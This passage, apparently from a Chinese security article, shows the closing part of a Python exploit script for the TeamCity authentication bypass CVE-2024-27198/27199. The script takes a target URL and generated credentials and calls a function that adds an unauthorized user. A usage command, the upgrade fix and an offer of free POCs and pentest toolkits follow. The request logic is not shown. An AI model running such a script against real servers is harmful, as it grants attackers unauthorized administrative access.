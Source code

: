 ```
    print(banner)
    parser = argparse.ArgumentParser(description="CVE-2024-27198 & CVE-2024-27199 Authentication Bypass --> RCE in JetBrains TeamCity Pre-2023.11.4")
    parser.add_argument("-u", "--username", type=str, help="username you want to add. If left blank, it will be randomly generated.", required=False)
    parser.add_argument("-p", "--password", type=str, help="password you want to add. If left blank, it will be randomly generated.", required=False)
    parser.add_argument("-t", "--target", type=str, help="target url", required=True)
    parser.add_argument("-d", "--domain", type=str, default="example.com", help="The domain name of the email address", required=False)
    parser.add_argument("--proxy", type=str, help="eg: http://127.0.0.1:8080", required=False)
    return parser.parse_args()

if __name__ == "__main__":
    args = ParseArguments()
    if not args.username:
        username = "".join(random.choices(string.ascii_lowercase + string.digits, k=8))
    else:
        username = args.username
    if not args.password:
        password = "".join(random.choices(string.ascii_letters + string.digits, k=10))
    else:
        password = args.password
    if not args.proxy:
        proxy = {}
    else:
        proxy = {
            "http": args.proxy,
            "https": args.proxy
        }
    AddUser(target=args.target.rstrip("/"), username=username, password=password, domain=args.domain)
```  
  
```
python CVE-2024-27198-RCE.py -t http://dev.w01fh4cker.local
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lloX2SgC3BPSj9gvGuETG6ibkQofJ6dTI09EFjdibrwLJMjqLRVdFiaIlLWXNTCeyprGvqSWFetcEQYeBT1aazv1g/640?wx_fmt=png&from=appmsg "")  
  
  
08  
  
—  
  
修复建议  
  
  
升级到2023.11.4及以上版本。  
  
  
09  
  
—  
  
新粉丝福利领取  
  
  
在公众号主页或者文章末尾点击发送消息免费领取。  
  
发送【  
电子书】关键字获取电子书  
  
发送【  
POC】关键字获取POC  
  
发送【  
工具】获取渗透工具包  
  
  
